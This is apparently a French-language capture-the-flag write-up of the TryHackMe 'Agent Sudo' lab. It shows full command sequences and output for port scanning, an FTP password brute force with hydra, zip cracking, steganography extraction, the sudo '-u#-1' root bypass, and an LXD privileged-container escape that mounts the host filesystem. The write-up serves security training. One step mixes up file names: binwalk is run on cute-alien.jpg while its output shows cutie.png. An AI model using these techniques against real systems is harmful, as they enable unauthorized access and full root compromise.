

##### **<u>1. NMAP:</u>**

> sudo nmap -sSV -sC  10.10.9.25

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-17 15:26 CET
Nmap scan report for 10.10.9.25
Host is up (0.023s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.77 seconds
```

On peut voir que le port 21(ftp), 22(ssh) est le port 80(http) sont ouvert.

Regardons ce qu'il y a sur le site web.


##### <u>**2. CURL:**</u>

> curl 10.10.9.25 -L
>

```html
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>

<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>

</body>
</html>
```

Le message affiché dis de changer son user-agent par son nom de code, testons les uns à uns.

> curl 10.10.9.25 -A -A -L

Le même message s'affiche.

> curl 10.10.9.25 -A -B -L

Le même message s'affiche.

> curl 10.10.9.25 -A -C -L

```html
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

Parfait nous avons réussis à récuperer le nom de l'agent C, et celon l'agent R le mot de passe de chris serait faible.

Allons maintenant tenter de se connecter au ftp avec le nom de l'utilisateur chris.

> ftp 10.10.9.25

```
Connected to 10.10.9.25.
220 (vsFTPd 3.0.3)
Name (10.10.9.25:ethost): chris
331 Please specify the password.
Password:
```

Il nous demande un mot de passe, tentons de faire une attaque par dictionnaire avec hydra.


##### <u>**3. HYDRA:**</u>

> hydra -l chris -P Documents/wordlist/probable-v2-top12000.txt -f ftp://10.10.9.25 -V

- `-l: Demande de taper un login specifique.`

- `-P: Demande un fichier pour énumerer les mot de passe.`
- `-f: Arrête le programme après avoir trouvé le premier login/motdepasse.`
- `-V: Verbose, affiche tous les essais de connexion.` 

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-17 15:32:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12646 login tries (l:1/p:12646), ~791 tries per task
[DATA] attacking ftp://10.10.9.25:21/
[ATTEMPT] target 10.10.9.25 - login "chris" - pass "123456" - 1 of 12646 [child 0] (0/0)
[ATTEMPT] target 10.10.9.25 - login "chris" - pass "password" - 2 of 12646 [child 1] (0/0)

...

[STATUS] attack finished for 10.10.9.25 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-17 15:33:17
```

Nous voilà avec le mot de passe de chris, regardons maintenant ce qu'il y a sur le ftp.


##### <u>**4. FTP:**</u>

> ftp 10.10.9.25

```
Connected to 10.10.9.25.
220 (vsFTPd 3.0.3)
Name (10.10.9.25:ethost): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

3 fichiers sont stocké, récuperons les.

> get To_agentJ.txt
>
> get cute-alien.jpg
>
> get cutie.png
>

Regardons ce que contient le fichier texte.

> cat To_agentJ.txt 

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Nous apprenons que le mot de passe de l'agent J est stocké dans la fausse image d'alien.


##### <u>**5. BINWALK:**</u>

Exportons ce que contient la fausse image.

> binwalk -e cute-alien.jpg
>

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

Regardons ce que nous avons extrait de cette image.

> ll _cutie.png.extracted/
>

```
total 316K
-rw-rw-r-- 1 ethost ethost 273K févr. 17 15:44 365
-rw-rw-r-- 1 ethost ethost  34K févr. 17 15:44 365.zlib
-rw-rw-r-- 1 ethost ethost  280 févr. 17 15:44 8702.zip
```

Un fichier ZIP a été extrait, ce dernier est protégé par un mot de passe, utilisons john pour le cracker.


##### <u>**6. JOHN:**</u>

> zip2john 8702.zip > 8702.zip.hash
>

```
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
```

> john 8702.zip.hash
>

```
Warning: detected hash type "ZIP", but the string is also recognized as "ZIP-opencl"
Use the "--format=ZIP-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
```

Dans mon cat le mot de passe à déjà été trouvé par john est reste dans les logs.

> john 8702.zip.hash --show
>

```
8702.zip/To_agentR.txt:alien:To_agentR.txt:8702.zip:8702.zip

1 password hash cracked, 0 left
```

Grâce à ce mot de passe nous pouvons récuperer le fichier texte dans le .ZIP

> cat To_agentR.txt 
>

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Le destinataire de la photo a été chiffré, 

En utilisant le site cyberchef, on retrouve le mot chiffré en base64.



Tentons maintenant d'extraire le contenu de l'image *cute-alien.jpg*


##### <u>**7. STEGHIDE:**</u>

> steghide extract -sf cute-alien.jpg 

```
Entrez la passphrase: 
�criture des donn�es extraites dans "message.txt".
```

> cat message.txt

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Nous voilà avec le mot de passe de l'agent J, nous avons maintenant accès a 2 utilisateurs.

Tentons de nous connecter en ssh avec ses comptes.

> ssh james@10.10.9.25
>
> cat user_flag.txt 
>

```
james@agent-sudo:~$ cat user_flag.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


##### <u>**8. PRIVESC:**</u>

2 options pour attenteindre le root sont possible.


​	<u>I. BASH</u>

En faisant la commande *sudo -l*  on peut voir que l'utilisateur est autorisé à utiliser la 		commande /bin/bash, mais pas en tant que root.

```
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

En faisant quelques recherches sur cette autorisation on peut trouver un expoit permetant 	d'élever ses privilèges jusqu'au root.

> ​	sudo -u#-1 /bin/bash
>

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

Nous voilà en tant que root sur la machine.

​	<u>II. LXD</u>

En faisant un *find / -perm /4000 -user root 2>/dev/null* on peut voir que lxc peut être utilisé 	en tant que root.

```
james@agent-sudo:~$ find / -perm /4000 -user root 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/chsh
...
```

> ​	ll /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic 
>

```
james@agent-sudo:~$ ll /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic*
```

Pour pouvoir passer root sur la machine cible, il va falloir installer le conteneur alpine sur 	notre machine hôte.

```
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
go get -d -v github.com/lxc/distrobuilder

#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml

# If that fails, run it adding -o image.release=3.8 at the end.
```

Importer ensuite les fichiers *lxd.tar.xz* et *rootfs.squashfs* sur la machine cible.

Pour ma part je vais utiliser python pour créer un serveur http temporaire.

> ​	python -m HTTPServer

```
[~/ContainerImages/alpine]->$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Copier ensuite les fichier sur la machine cible.

> ​	wget http://10.9.2.162:8000/lxd.tar.xz
>
> ​	wget http://10.9.2.162:8000/rootfs.squashfs


Importer l'image.

> ​	lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
>

```
james@agent-sudo:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: 8362fc3762604c94e152de7f657fbb9f64361f832ebc788a94fff15548fd8297
```

En faisant *lxc image list* on peut voir que l'image a bien été importé.

```
james@agent-sudo:~$ lxc image list 
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| alpine | 8362fc376260 | no     | Alpinelinux 3.8 x86_64 (20210218_0938) | x86_64 | 1.92MB | Feb 18, 2021 at 9:45am (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
```

Initialiser l'image.

> ​	lxd init

```
james@agent-sudo:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
```

Avec la commande suivante nous allons créer un container grâce à l'image importé.

> ​	lxc init alpine privesc -c security.privileged=true
>

```
james@agent-sudo:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
```

Vérifions que le contenaire est bien créé.

> ​	lxc list
>

```
james@agent-sudo:~$ lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
```

Maintenant nous allons mapper la partition hôte au container

> ​	lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
>

```
james@agent-sudo:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Il nous reste plus qu'à démarrer le container et éxecuter nos commande en tant que root.

> ​	lxc start privesc
>
> ​	lxc exec privesc /bin/sh*

```
james@agent-sudo:~$ lxc start privesc
james@agent-sudo:~$ lxc exec privesc /bin/sh
~ # whoami
root
```

Nous voilà root grâce à lxd.


Pour trouver le flag root.

> ​	find / -name root.txt 
>

```
find / -name root.txt 
/mnt/root/root/root.txt
```

> ​	cat /mnt/root/root/root.txt
>

```
cat /mnt/root/root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

By,
DesKel a.k.a Agent R
```


Celà conclu donc la box <u>Agent Sudo</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>